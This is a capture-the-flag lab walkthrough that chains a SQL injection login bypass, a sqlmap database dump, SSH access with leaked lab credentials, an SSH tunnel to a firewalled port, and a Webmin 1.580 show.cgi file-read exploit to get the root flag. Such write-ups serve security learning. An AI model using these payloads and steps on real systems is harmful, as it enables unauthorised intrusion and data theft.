

Website login is injectable with SQL
> ' OR 1=1-- -
saved post request from searchbar after login and sent it through sqlmap
> sqlmap -r request.txt --dbms=mysql --dump

agent47 : videogamer124
SQL tables:- - users
- - post
- ssh agent47@10.10.253.98
- password: videogamer124
User.txt
649ac17b1480ac13ef1e4fa579dac95c
=============================================
Enumerate sockets:
> ss -tulpn
We can see that a service running on port 10000 is blocked via a firewall rule from the outside (we can see this from the IPtable list). However, Using an SSH Tunnel we can expose the port to us (locally)!

ssh -L 10000:localhost:10000 agent47@10.10.253.98-L is a local tunnel (YOU <-- CLIENT)
-R is a remote tunnel (YOU --> CLIENT)
so we create local tunnel to port 10000 using info
now we can access the web login - We know it runs on Webmin
- - version 1.580
Webmin 1.580 - '/file/show.cgi' Remote Command Execution (Metasploit) | unix/remote/21851.rb
reading into the exploit before exploitation
> we don't even need to run it in order to access file
> accessed with http://localhost:10000/file/show.cgi/root/root.txt
Root Flag- a4b945830144bdd71908d12d902adeee